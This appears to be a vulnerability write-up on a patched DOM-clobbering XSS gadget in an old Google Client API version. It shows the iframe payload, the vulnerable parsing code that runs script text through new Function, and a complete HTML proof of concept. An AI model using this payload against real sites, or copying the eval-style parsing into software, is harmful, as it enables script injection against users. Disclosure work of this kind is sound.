 ## Google Client API

### Meta

+ Library: Google Client API
+ Version: 5BIk7BglYEE
+ Payload: ```<iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe>```
+ Impact: XSS
+ Foundby: TheHulk


### Library

URL: 
+ `https://apis.google.com/js/api.js`
+ `https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs`


### Vulnerable Code Snippet

```javascript
var e = document.scripts || document.getElementsByTagName("script") || [];
        d = [];
        var f = [];
        f.push.apply(f, zf("us"));
        for (var h = 0; h < e.length; ++h)
            for (var k = e[h], l = 0; l < f.length; ++l)
                k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
        0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
        for (e = 0; e < d.length; ++e)
            d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
            (f = d[e]) ? (h = f.nodeType,
            f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
            (f = Df(f)) && b.push(f));
        a && Ef(c, a);
```
```javascript
Df = function(a) {
    if (a && !/^\s+$/.test(a)) {
        for (; 0 == a.charCodeAt(a.length - 1); )
            a = a.substring(0, a.length - 1);
        try {
            var b = window.JSON.parse(a)
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return (" + a + "\n)"))()
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return ({" + a + "\n})"))()
        } catch (c) {}
        return "object" === typeof b ? b : {}
    }
}
```

## PoC

Please note that this gadget has been patched by Google through the release of a newer version: [link](https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs). Therefore, initializing `https://apis.google.com/js/api.js` will load the updated script. To demonstrate the DOM clobbering gadgets, we manually load the vulnerable version here.

```
Patched Verison
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs
```

### PoC #1
```html

<!DOCTYPE html>
<html>
<head>
  <title>Google API Client Example</title>
  <script>
    // Load the Google API client library
    function loadGapi() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/js/api.js';
      script.onload = () => initGapi();
      document.body.appendChild(script);
    }

    // Initialize the Google API client library
    function initGapi() {
      gapi.load('client', initClient);
    }

    // Set up the API client and make a request
    function initClient() {}

    // Load the additional script
    function loadAdditionalScript() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs';
      document.body.appendChild(script);
    }

    // Initialize the loading process
    function initialize() {
      loadGapi();
      loadAdditionalScript();
    }
  </script>
</head>
<body onload="initialize()">
  <h1>Google Sheets API Client Example</h1>
  // PAYLOAD
  <iframe name="scripts" src="https://api.google.com/js/api.js">alert("GG!")</iframe>
  <iframe name="scripts" src="https://api.google.com/js/api.js">alert("GG!")</iframe>
</body>
</html>
```
